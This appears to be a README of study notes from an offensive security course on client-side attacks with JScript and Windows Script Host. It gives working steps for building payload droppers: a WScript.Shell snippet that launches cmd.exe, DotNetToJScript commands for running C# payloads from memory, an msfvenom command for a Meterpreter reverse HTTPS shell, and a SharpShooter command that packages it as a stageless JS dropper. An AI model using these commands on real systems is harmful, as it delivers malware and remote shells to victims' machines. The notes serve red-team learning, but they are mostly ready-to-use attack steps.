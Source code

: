 ## Basic Dropper in Jscript
Jscript is developed by Microsft that used in Internet Explorer. It can also be executed outside the browser through Windows Script Host(an automation technology for Microsoft Windows operating systems that provides scripting abilities think like batch files, but beefer).
We can use jscript to interact with ActiveX( software framework created by Microsoft back in 1996, it was desiged for content downloaded from a network(IE)) Consider the following code, We invoke **ActiveXObject** and use **WScript.Shell** to interact with the Windows Script Host Shell to execute external application. The file extension should be .js

```
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Method 1: Let's Create [Jscript payload Dropper](/ClientSideWithWindowsScriptHost/JscriptPayloadDropper.js) to download and execute payload from our wbesite.
Method 2: To Do, Let's make the dropper proxy-aware, research setProxy method, Page 107.

## Mix Jscript and C#
Let's run payload completely from memory by using Win32 APIs. We can't invoke Win32API directly from Jscript. We'll embed a complited C# assembly in the Jscript file and execute it. We will need to use the [DotNetToJScript github code](https://github.com/tyranid/DotNetToJScript), once complie the example source code, we will use [DotNetToJScript.exe](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) with [NDesk.Options.dll](/ClientSideWithWindowsScriptHost/NDesk.Options.dll) to compile [ExampleAssembly.dll](/ClientSideWithWindowsScriptHost/DotNetToJScript.exe) into an [demo.js](/ClientSideWithWindowsScriptHost/demo.js) jscript.

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

Now, We can modify the default TestClass.cs to write our [payload dropper](/ClientSideWithWindowsScriptHost/TestClass.cs ) in c# and conver it to jscript using the same DotNetToJScript.exe command.

The above method can also be done by using [SharpShoter](https://github.com/mdsecactivebreach/SharpShooter) framework.

First,Create a raw payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f raw -o /var/www/html/shell.txt
```

then invoke SharpShooter.py to compile js code

```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```
